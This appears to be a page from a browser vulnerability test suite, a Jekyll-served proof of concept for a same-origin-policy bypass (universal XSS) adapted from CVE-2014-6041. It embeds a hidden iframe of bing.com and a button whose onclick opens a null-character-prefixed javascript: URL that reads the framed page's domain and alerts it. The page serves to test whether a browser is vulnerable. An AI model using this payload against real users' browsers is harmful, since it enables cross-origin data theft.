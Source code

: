 ```yaml
---
layout: default
title: SOP Bypass - Testcase 8
permalink: /sop/new/8
---
```


# SOP Bypass - Testcase 8

Modified version of CVE-2014-6041 for testing other control characters

<iframe height="0" width="0" name="CVE-2014-6041" src="https://web.archive.org/web/20180831120258if_/https://www.bing.com/" style="display:none;" data-ruffle-polyfilled=""></iframe>

<!-- Multiple buttons with different onclick events -->
<input type="button" id="btn_test" class="test" value="Run Test Case 1" onclick="window.open('\u0000javascript:test=\'Accessed property of \'+document.domain+\'. Your browser is vulnerable to UXSS\'; alert(test);','CVE-2014-6041');">
<!-- ... additional buttons for other test cases ... -->

**Note:**
If page loads popup and displays an alert box "Accessed Property of bing.com, your browser is vulnerable to SOP bypass."
